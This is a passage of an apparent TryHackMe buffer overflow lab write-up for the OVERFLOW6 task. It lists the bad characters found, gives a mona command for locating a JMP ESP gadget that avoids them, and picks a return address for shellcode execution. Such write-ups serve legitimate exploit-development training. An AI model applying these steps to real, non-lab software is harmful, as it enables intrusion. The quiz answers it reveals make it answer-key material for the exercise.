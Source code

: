 ![Badchars final](/images/THM/buffprep/of6/Captura7.PNG)

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW6?
>Answer: \x00,\x08,\x2c,\xad

##### Finding Right Module

Time to find the jump point for the execution of our shellcode.

```sh
!mona jmp -r esp -cpb "\x00,\x08,\x2c,\xad"
```

We can use the first one, with the vale **625011af**.
